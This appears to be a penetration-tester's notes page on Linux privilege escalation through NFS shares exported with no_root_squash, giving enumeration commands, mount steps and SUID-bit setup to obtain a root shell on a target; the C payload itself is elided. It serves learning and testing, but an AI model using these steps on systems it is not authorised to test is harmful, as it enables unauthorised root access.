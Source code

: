 # NFS

**From the target machine** (remote shell)

The _NFS_ (Network File Sharing) configuration is found in the `/etc/exports`file. The important element for privilege escalation is present with the `no_root_squash` value. With this value, we are able to create a `SUID` executable binary on the target machine via the _NFS_ connection, and execute it to gain a root shell.

```bash
$ cat /etc/exports
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
...
```

**We can use the `showmount` command to show the mountable shares on the target machine** (from our attacker machine)

```bash
$ showmount -e <target_ip_add>
Export list for <target_ip_add>:
/tmp                      *
/home/backup              *

$ nmap --script=... <target_ip_addr>
```

**To be ran as root on the attacker machine** (mount the file system for the target machine)

1. Create temporary directory
2. Mount the shares on the target machine (the mount point should be one with the `no_root_squash` option set)
3. Create a _**C**_ program to gain root shell
4. Compile the _**C**_ code to binary
5. Set the SUID bit on the output binary

```bash
root@attacker# mkdir /tmp/tmp_mnt_folder
root@attacker# mount -o rw <target_ip_addr>:<mount_point> /tmp/tmp_mnt_folder
root@attacker# nano shell.c
...
...

root@attacker# gcc shell.c -o shell
root@attacker# chmod +s shell
```

**On the target machine**

1. Navigate to the directory where the `SUID` bit binary is present
2. Run the binary to gain a root shell

```bash
$ ./shell

root@target# id
...
```
